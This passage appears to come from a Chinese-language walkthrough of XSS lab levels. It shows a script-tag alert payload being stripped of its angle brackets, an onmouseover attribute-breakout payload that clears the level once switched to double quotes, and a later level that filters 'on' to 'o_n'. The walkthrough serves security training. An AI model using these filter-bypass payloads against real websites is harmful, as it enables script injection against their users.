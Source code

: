 还是一样进行测试

```
<script>alert(1)</script>
```



可以发现结果变成

```
<input name=keyword  value="scriptalert(1)/script">
```



<>闭合标签给过滤了



试试payload3的样子

```
xx' onmouseover='alert(1)
```



结果变成

```
<input name=keyword  value="xx' onmouseover='alert(1)">
```



所以尝试改单引号变为双引号



```
xx" onmouseover="alert(1)
```

通关



## 5.

尝试payload4

```
xx" onmouseover="alert(1)
```

查看源代码，可以发现



```
<input name=keyword  value="xx" o_nmouseover="alert(1)">
```

on被过滤为o_n了

说明这个方法给ban了

